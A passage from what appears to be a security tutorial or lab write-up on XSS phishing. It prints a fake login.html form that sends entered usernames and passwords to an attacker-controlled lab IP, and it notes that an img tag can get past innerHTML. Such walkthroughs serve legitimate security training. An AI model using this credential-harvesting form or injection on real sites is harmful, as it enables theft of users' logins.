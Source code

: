 {% code title="login.html" %}
```html
<!-- the action to perform -->
<form action="http://192.168.45.214/login" method="get">

  <div class="container">
    <!-- a label and input field pair for entering a username. -->
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>
    <!-- a label and input field pair for entering a password. -->
    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>
    
    <!-- the submit button -->
    <button type="submit">Login</button>
  </div>

</form>
```
{% endcode %}

If we spin up an HTTP server and test our script, we can see that it is working as intended (Figure 5).

<figure><img src="../../../.gitbook/assets/web_xss_phising_3.png" alt=""><figcaption><p>Figure 5: Testing the <code>login.html</code> file.</p></figcaption></figure>

The application uses the [`innerHTML`](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations) method to reconstuct the table (Figure 6), which means that we can't use the `<script>` tag in order to inject and execute a `.js` file directly. However, we use the `<img>` tag.

<figure><img src="../../../.gitbook/assets/web_xss_phising_4.png" alt=""><figcaption><p>Figure 6: Inspecting the <code>list.js</code> code.</p></figcaption></figure>
